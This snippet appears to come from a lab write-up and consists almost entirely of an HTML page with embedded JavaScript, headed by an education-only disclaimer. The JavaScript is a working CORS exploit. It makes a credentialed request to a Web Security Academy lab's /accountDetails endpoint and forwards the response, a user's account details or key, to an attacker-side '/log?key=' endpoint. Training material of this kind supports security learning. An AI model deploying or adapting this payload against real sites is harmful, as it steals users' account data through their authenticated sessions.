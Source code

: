*This information is only for the purposes of education and skills development.*

`<html>`
    `<body>`
        `<h1>Hello World!</h1>`
        `<script>`
            `var xhr = new XMLHttpRequest();`
            `var url = "https://ac211f241efad3f2c045255700630006.web-security-academy.net"`
            `xhr.onreadystatechange = function() {`
                `if (xhr.readyState == XMLHttpRequest.DONE){`
                    `fetch("/log?key=" + xhr.responseText)`
                `}`
            `}`

            `xhr.open('GET', url + "/accountDetails", true);`
            `xhr.withCredentials = true;`
            `xhr.send(null)`
        `</script>`
    `</body>`
`</html>`